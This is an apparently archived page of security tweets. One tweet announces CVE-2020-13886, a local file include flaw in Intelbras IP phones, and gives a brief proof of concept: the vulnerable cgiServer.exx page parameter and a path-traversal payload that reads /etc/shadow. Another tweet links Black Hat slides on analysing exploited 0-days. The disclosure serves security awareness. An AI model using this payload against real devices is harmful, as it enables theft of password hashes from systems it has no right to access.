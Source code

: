 
# wugeej
**https://twitter.com/wugeej/status/1291184302672158720 _at 2020-08-06 01:28:21_**
<blockquote>
CVE-2020-13886 0day INTELBRAS TELEFONE IP TIP200/200 LITE &amp; TIP 300 - Local File Include

[ Proof Of Concept ]
URL parameter -&gt;http://HOST/cgi-bin/cgiServer.exx?page=

LFI payload -&gt; ../../../../etc/shadow

https://t.co/fQEOI2WZsF https://t.co/ixlAj26tAM
</blockquote>

* https://github.com/lucxssouza/CVE-2020-13886

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+ext_tw_video_thumb+1291184230123225088+pu+img+mUIZDKZEb_EvlhfO.jpg" alt="http://pbs.twimg.com/ext_tw_video_thumb/1291184230123225088/pu/img/mUIZDKZEb_EvlhfO.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>102</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1291124059917266944 _at 2020-08-05 21:28:58_**
<blockquote>
Here are the slides from my @BlackHatEvents  talk "Reversing the Root: Identifying the Exploited Vulnerability in 0-days Used In-The-Wild".
